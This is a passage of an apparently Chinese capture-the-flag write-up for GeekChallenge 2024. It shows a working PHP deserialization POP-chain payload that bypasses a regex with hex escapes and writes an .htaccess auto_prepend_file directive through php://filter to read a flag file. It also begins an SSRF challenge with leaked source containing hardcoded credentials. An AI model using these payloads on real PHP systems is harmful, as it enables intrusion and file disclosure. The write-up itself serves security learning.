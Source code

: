 ```

$s=serialize($lover1);

$s = preg_replace('/s:7:"m/', 'S:7:"\\\6d', $s);
echo urlencode($s);

#O%3A5%3A%22lover%22%3A2%3A%7Bs%3A5%3A%22J1rry%22%3Bs%3A44%3A%22data%3A%2F%2Ftext%2Fplain%2CWelcome+GeekChallenge+2024%22%3BS%3A7%3A%22%5C6deimeng%22%3BO%3A4%3A%22Geek%22%3A1%3A%7Bs%3A4%3A%22GSBP%22%3BO%3A5%3A%22lover%22%3A2%3A%7Bs%3A5%3A%22J1rry%22%3Bs%3A44%3A%22data%3A%2F%2Ftext%2Fplain%2CWelcome+GeekChallenge+2024%22%3BS%3A7%3A%22%5C6deimeng%22%3BO%3A4%3A%22Geek%22%3A1%3A%7Bs%3A4%3A%22GSBP%22%3BO%3A3%3A%22SYC%22%3A1%3A%7Bs%3A7%3A%22starven%22%3Bs%3A93%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.strip_tags%2F%3F%3Ephp_value+auto_prepend_file+%2Fflag%0A%23%2Fresource%3D.htaccess%22%3B%7D%7D%7D%7D%7D
```

简单分析一下。首先是data的正则用16进制绕过，lover类的destruct触发Geek类的get魔术方法，进而触发lover的invoke，然后是Geek的tostring，最后进入到SYC的call方法。

死亡exit的绕过：由于正则过滤的非常严格，无法直接写入php木马，但是可以通过写入htaccess配置文件预包含flag

![](./images/image-43.png)

## ez\_SSRF

www.zip备份文件泄露

```
#calculator.php
<?php
$admin="aaaaaaaaaaaadmin";
$adminpass="i_want_to_getI00_inMyT3st";

function check($auth) {
    global $admin,$adminpass;
    $auth = str_replace('Basic ', '', $auth);
    $auth = base64_decode($auth);
    list($username, $password) = explode(':', $auth);
    echo $username."<br>".$password;
    if($username===$admin && $password===$adminpass) {
        return 1;
    }else{
        return 2;
    }
}
if($_SERVER['REMOTE_ADDR']!=="127.0.0.1"){
    exit("Hacker");
}
$expression = $_POST['expression'];
$auth=$_SERVER['HTTP_AUTHORIZATION'];
```